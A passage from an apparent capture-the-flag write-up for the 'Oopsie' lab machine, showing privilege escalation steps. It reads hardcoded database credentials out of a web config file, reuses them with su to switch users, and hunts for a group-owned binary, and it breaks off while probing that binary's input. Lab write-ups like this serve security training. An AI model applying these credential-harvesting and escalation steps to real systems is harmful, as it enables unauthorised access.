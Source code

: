 His home directory contains the `user.txt` flag, and we have privileges to read it. The next step is to get root access and read the root flag!

## Privilege Escalation
---

After a bit of searching common directories, there is an interesting file called `db.php` inside the webpage directory tree:

```console
www-data@oopsie:/var/www/html/cdn-cgi/login$ ls
admin.php  db.php  index.php  script.js
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

As it turns out, we can use these credentials to connect to the machine over SSH. Let's migrate to user `robert` with the password `M3g4C0rpUs3r!`.

```console
www-data@oopsie:/var/www/html/cdn-cgi/login$ su robert
Password:
robert@oopsie:/var/www/html/cdn-cgi/login$ cd
robert@oopsie:~$ whoami
robert
```
Let's find more information about user "robert" using the `id` command:

```console
robert@oopsie:~$ id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
robert@oopsie:~$ find / -group bugtracker 2>/dev/null
/usr/bin/bugtracker
```
Robert is a member of the `bugtracker` group, so we can now further investigate the `bugtracker` binary.

Running the binary with input `1` outputs the following:

```console
robert@oopsie:~$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
---------------

Binary package hint: ev-engine-lib

Version: 3.3.3-1

Reproduce:
When loading library in firmware it seems to be crashed

What you expected to happen:
Synchronized browsing to be enabled since it is enabled for that site.

What happened instead:
Synchronized browsing is disabled. Even choosing VIEW > SYNCHRONIZED BROWSING from menu does not stay enabled between connects.
```
It seems to output a report based on the ID value provided. Let's try different inputs:
